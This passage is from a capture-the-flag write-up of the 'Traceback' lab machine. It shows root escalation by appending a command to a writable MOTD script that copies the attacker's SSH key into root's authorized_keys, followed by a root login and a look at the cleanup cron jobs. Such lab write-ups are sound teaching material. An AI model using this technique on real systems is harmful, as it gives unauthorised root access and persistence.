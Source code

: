     
    
    sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
    

These files are going to be run when I SSH into the box. So I’ll immediately
SSH into the box as webadmin before the 30 second cleanup happens. When I do,
the `00-header` script is run, and now my public key should be in root’s
`authorized_keys` file.

I’ll SSH in as root:

    
    
    root@kali# ssh -i ~/keys/id_rsa_generated root@10.10.10.181
    #################################
    -------- OWNED BY XH4H  ---------
    - I guess stuff could have been configured better ^^ -
    #################################
    
    Welcome to Xh4H land 
    
    
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    Last login: Fri Jan 24 03:43:29 2020
    root@traceback:~# 
    

Now I can grab `root.txt`:

    
    
    root@traceback:~# cat root.txt
    ccda9e55************************
    

## Beyond Root

### Cron

Just to take a quick look at the cron that’s driving the cleanup, it is
actually two crons:

    
    
    root@traceback:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    * * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
    * * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
    

The first just runs, and the second does a `sleep` for 30 seconds, and then
runs the same thing. This effectively has the cleanup run every 30 seconds.

### MOTD Enumeration
